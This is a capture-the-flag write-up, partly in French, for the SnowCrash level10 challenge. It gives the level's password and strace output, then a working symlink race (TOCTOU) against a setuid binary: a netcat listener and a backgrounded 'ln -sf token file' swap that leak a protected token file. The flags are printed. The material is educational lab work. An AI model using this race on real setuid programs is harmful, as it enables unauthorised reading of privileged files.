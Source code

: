 # LEVEL 00

**LOGIN: level10**

**PASSWORD: s5cAJpM8ev6XHw998pRWG728z**

 ----
 
 ```
 level10@SnowCrash:~$ ls -l; echo; file level10 ; echo ; cat token
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

level10: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf7e21fb68568fa57d6317d0535b97d9fca66f841, not stripped

cat: token: Permission denied
```
```
/level10 
./level10 file host
	sends file to host if you have access to it
```

Ok un peu de reseau ? 

`level10@SnowCrash:~$ touch file host`
```
level10@SnowCrash:~$ strace -s 1000 ./level10 file host
...
access("file", R_OK)                    = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fda000
write(1, "Connecting to host:6969 .. ", 27Connecting to host:6969 .. ) = 27
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("255.255.255.255")}, 16) = -1 ENETUNREACH (Network is unreachable)
....
```

Le programme utilies `access` pour vérifier les droits au fichier passé en argument ... on image pouvoir utiliser un Exploiting Race Condition. 
Puis, il crée une connection sur l'ip passée en paramètre sur le port 6969

On ouvre donc une connection en attente sur ce port 
`nc -l -k -p 6969`

puis
`./level10 file 192.168.0.18 & ln -sf token file`

et on recoit bien le token.

**TOKEN: woupa2yuojeeaaed06riuj63c**

```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```


